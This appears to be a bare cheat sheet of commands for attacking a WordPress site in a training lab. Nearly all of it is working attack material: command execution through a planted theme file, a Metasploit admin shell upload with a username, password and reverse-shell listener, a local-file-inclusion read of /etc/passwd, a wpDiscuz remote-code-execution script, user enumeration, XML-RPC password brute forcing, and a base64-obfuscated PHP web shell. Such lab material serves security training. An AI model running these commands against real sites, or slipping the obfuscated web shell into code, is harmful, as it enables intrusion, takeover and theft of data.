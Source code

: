 ## 1. Manual Code Execution via Theme Editor (404.php)

```bash
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```

## 2. Metasploit wp_admin_shell_upload

```bash
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.local
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit
```

## 3. mail-masta LFI Exploit

```bash
curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

## 4. wpDiscuz RCE Exploit

### Python Script Method

```bash
python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1
```

### Curl Method

```bash
curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id
```

## 5. WordPress REST API User Enumeration

```bash
curl -s http://blog.inlanefreight.local/wp-json/wp/v2/users
```

## 6. XML-RPC Brute Force (system.multicall)

```bash
python3 xmlrpc_bruteforce.py -u http://blog.inlanefreight.local/xmlrpc.php -U users.txt -P passwords.txt
```

## 7. wp-config.php Exposure Check

```bash
curl -s http://blog.inlanefreight.local/wp-config.php
```

## 8. Web Shell Obfuscation Example

```php
<?php eval(base64_decode("c3lzdGVtKCRfR0VUWyJjbWQiXSk7")); ?>
```
